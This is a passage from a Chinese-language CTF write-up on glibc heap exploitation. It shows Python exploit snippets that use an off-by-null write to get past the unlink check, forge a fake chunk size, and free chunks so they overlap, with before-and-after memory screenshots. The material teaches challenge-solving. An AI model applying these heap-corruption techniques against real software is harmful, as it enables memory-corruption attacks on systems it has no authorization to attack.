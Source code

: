 ### <a class="reference-link" name="6%E3%80%81"></a>6、

之后又到了关键的一步，将bk、fd 尾部的0x20，利用0ff-by-null敲掉

```
partial_null_write = 0x98*'b'
    partial_null_write += p64(0xf1)
    edit(0x32,partial_null_write)


    partial_null_write = 0xa8*'c'
    edit(0x3a,partial_null_write)
```

利用off-by-null去掉0x20

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012bb51921d45461b4.png)

edit 前后对比图

edit前

[![](https://p2.ssl.qhimg.com/t01cf17beb93138bf20.png)](https://p2.ssl.qhimg.com/t01cf17beb93138bf20.png)

[![](https://p3.ssl.qhimg.com/t01af2981880a61bab7.png)](https://p3.ssl.qhimg.com/t01af2981880a61bab7.png)

edit 后

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01049ba06cc1139aa6.png)

[![](https://p1.ssl.qhimg.com/t015bcd5204ceeb024b.png)](https://p1.ssl.qhimg.com/t015bcd5204ceeb024b.png)

这样就绕过了unlink检测，算是绕过了最大的难题

### <a class="reference-link" name="7%E3%80%81"></a>7、

然后伪造fake_size

```
fake_chunk_size = 0x98*'d'
    fake_chunk_size += p64(0x2e1)

    edit(0x35,fake_chunk_size)
```

然后进行delete造成重叠

```
for i in range(42,49):#0xe8
        delete(i)    
    raw_input("overlap")
    delete(57) #最后进行上合并的堆块
```
